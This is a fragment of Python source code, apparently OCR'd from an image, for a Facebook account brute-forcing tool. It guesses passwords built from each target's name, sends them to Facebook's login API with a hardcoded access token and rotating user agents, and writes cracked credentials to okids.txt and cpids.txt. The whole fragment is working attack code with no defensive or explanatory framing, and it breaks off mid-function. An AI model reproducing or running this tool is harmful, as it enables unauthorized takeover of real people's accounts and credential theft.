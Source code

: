     print ' \x1b[1;91m  BruteForce Has Been Started'

    print ' \x1b[1;94m  Wait Ids Will Appear Here \033[0m'#Thanks TechQaiser

    print 45 * '_'

    print ''

    def main(arg):

        user = arg

        uid, name = user.split('|')

        ranagent = random.choice(agents)

        session = requests.Session()

        session.headers.update({'User-Agent': ranagent})

        try:

            pass1 = name.lower()

            data = session.get('https://b-api.facebook.com/method/auth.login?format=json&email=' + uid + '&password=' + pass1 + '&credentials_type=device_based_login_password&generate_session_cookies=1&error_detail_type=button_with_disabled&source=device_based_login&meta_inf_fbmeta=%20&currently_logged_in_userid=0&method=GET&locale=en_US&client_country_code=US&fb_api_caller_class=com.facebook.fos.headersv2.fb4aorca.HeadersV2ConfigFetchRequestHandler&access_token=350685531728|62f8ce9f74b12f84c123cc23437a4a32&fb_api_req_friendly_name=authenticate&cpl=true', headers=header).text

            q = json.loads(data)

            if 'access_token' in q:

                print '\x1b[1;32m[NAME-OK]\033[0m ' + uid + ' | ' + pass1 + '\x1b[0;97m'

                ok = open('okids.txt', 'a')

                ok.write(uid + '|' + pass1 + '\n')

                ok.close()

                oks.append(uid + pass1)

            elif 'www.facebook.com' in q['error_msg']:

                print '\x1b[1;31m[NAME-CP] \033[0m' + uid + ' | ' + pass1 + '\x1b[0;97m'

                cp = open('cpids.txt', 'a')

                cp.write(uid + '|' + pass1 + '\n')

                cp.close()

                cps.append(uid + pass1)

            else:

                pass2 = name.lower().split(' ')[0] + name.lower().split(' ')[1]

                data = session.get('https://b-api.facebook.com/method/auth.login?format=json&email=' + uid + '&password=' + pass2 + '&credentials_type=device_based_login_password&generate_session_cookies=1&error_detail_type=button_with_disabled&source=device_based_login&meta_inf_fbmeta=%20&currently_logged_in_userid=0&method=GET&locale=en_US&client_country_code=US&fb_api_caller_class=com.facebook.fos.headersv2.fb4aorca.HeadersV2ConfigFetchRequestHandler&access_token=350685531728|62f8ce9f74b12f84c123cc23437a4a32&fb_api_req_friendly_name=authenticate&cpl=true', headers=header).text
